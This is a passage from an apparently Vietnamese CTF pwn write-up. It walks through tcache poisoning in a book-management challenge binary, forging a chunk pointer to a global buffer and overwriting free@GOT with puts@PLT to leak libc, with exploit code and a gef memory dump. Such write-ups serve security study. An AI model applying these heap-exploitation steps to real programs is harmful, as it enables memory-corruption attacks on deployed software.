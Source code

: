 ```python
throw(4)
throw(3)
throw(2)
write(2, b"E"*0x20) #de malloc cap phat 0x41byte

fake_chunk = p64(0) + p64(0x41)  # prev_size, size chunk 3
secret_msg = 0x004040c0
fake_chunk += (p64(secret_msg ^ (heap_addr >> 12)) + #fw_pointer
    p64(0x0))  # next = secret_msg
# fake-chunk replaces chunk C's metadata & next ptr
edit(2, b"E"*0x10 + fake_chunk)
```

- Khi này trong bin sẽ như này `tcahe bin 0x40: chunk3 <== chunk4`, ta sửa fw_pointer của chunk 3, chunk 4 sẽ lấy fw_ptr đó làm địa chỉ nên, trong bin ta sẽ thấy như này
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/feb9b9e6-25fd-41a3-a5d2-d6e87c90471d)

- Khi ta gọi lại 2 chunk 3 4 ra thì chunk 4 đang trỏ địa chỉ của `secret_msg`
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/7519556d-53fa-4cd0-92f4-c9db0e27ebe0)
- Bây giờ ta sẽ set `secret_msg = 0`, author_sign như cũ, size book1 là 0x1000 và địa chỉ book1 là `secret_msg`

```python
fake_book = p64(0x1000) + p64(secret_msg)  # size, ptr
payload = (p64(0) * 2 +  # secret_msg
           b"by " + signature + 7 * b"\x00" +  # author_signature
           fake_book)  # books[0]
edit(4, payload)
```
### Leak libc
- Khi này book 1 là địa chỉ của msg rồi nên bây giờ ta sẽ ghi đè book 2 giữ địa chỉ của free.got, để khi rewrite book 2 thì nó sẽ nhảy vào free.got để ta có thể sửa free.plt thành puts.plt

```python
fake_book2 = p64(0x8) + p64(exe.got["free"])
bss_payload = payload + fake_book2
# writes to secret_msg. book[1] now has ptr=got['free'] & size=0x8
edit(1, bss_payload)

edit(2, p64(exe.plt["puts"]))  # overwrites free with puts
```

```
gef➤  x/30xg 0x00000000004040c0
0x4040c0 <secret_msg>:  0x0000000000000000      0x0000000000000000
0x4040d0 <author_signature>:    0x6161616161207962      0x0000000000000041
0x4040e0 <books>:       0x0000000000001000      0x00000000004040c0      #book1
0x4040f0 <books+16>:    0x0000000000000008      0x0000000000404018      #book2
0x404100 <books+32>:    0x6161616161207962      0x0000000000000041
0x404110 <books+48>:    0x0000000000000030      0x00000000004040c0
0x404120 <books+64>:    0x0000000000000000      0x0000000000000000
```
